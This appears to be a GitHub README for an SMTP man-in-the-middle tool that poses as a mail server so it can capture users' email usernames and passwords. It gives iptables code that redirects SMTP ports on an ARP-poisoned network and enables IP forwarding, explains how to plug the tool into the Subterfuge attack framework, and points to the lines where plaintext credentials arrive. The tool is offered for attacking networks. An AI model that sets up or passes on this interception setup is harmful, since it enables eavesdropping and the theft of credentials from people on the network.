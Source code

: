 # jjsmtp-listener

_mitm-smtp-listener_ acts as a SMTP-server with a self-signed certificate, however behaves differently at certain points of the ESMTP protocol in order to eavesdrop on the username and password.  
It was originally developed for man-in-the-middle attacks on networks and works well with [Subterfuge](http://code.google.com/p/subterfuge/), an automated man-in-the-middle attack framework.

---

## Setup

The following steps are explained for Subterfuge, however should work in any other man-in-the-middle attack scenario.
Assuming we have an ARP poisoned network in which all traffic passes our machine, we have to redirect all TCP traffic bound for SMTP ports (25, 465, 587) to our twisted reactor.
For Subterfuge, do this using `iptables` in the file `attackctrl.py`. The function `iptablesconfig` should look like this:


```python
def iptablesconfig():
    os.system('iptables -F')
    os.system('iptables -X')
    os.system('iptables -t nat -F')
    os.system('iptables -t nat -X')
    os.system('iptables -t mangle -F')
    os.system('iptables -t mangle -X')
    os.system('iptables -P INPUT ACCEPT')
    os.system('iptables -P FORWARD ACCEPT')
    os.system('iptables -P OUTPUT ACCEPT')
    time.sleep(1)
    os.system('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 	10000')

   	# THIS IS WHERE THE SMTP PORTS ARE ROUTED TO OUR REACTOR 
    print "SMTP Prerouting configuration"
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 25 -j REDIRECT --to-port    9998')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-port    9997')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-port    9996')
   
    time.sleep(1)
    print "Iptables Prerouting Configured\n"
    
    print 'Configuring System...'
    os.system('sysctl -w net.ipv4.ip_forward=1')
    print "IP Forwarding Enabled."
```

Next, when everything has been set up, import jjmail  
`from jjmail import jjsmtp`  
and tell it to set up everything:  
`jjsmtp.configureSMTPTraffic()`  

In Subterfuge, this is done in `sslstrip.py`, right after `reactor.listenTCP(int(listenPort), strippingFactory)`.


## Relaying mails

There is no implementation of listening to which SMTP-server any mail is actually bound for. Thus all messages must be sent via a relay server of your choice. For this, enter your credentials in lines __33 to 36__ in `jjsmtp.py`.

## Getting the credentials

Raw-Text username rolls in on line 161, raw-text password rolls in on line 166. Do whatever you want, but please be careful!
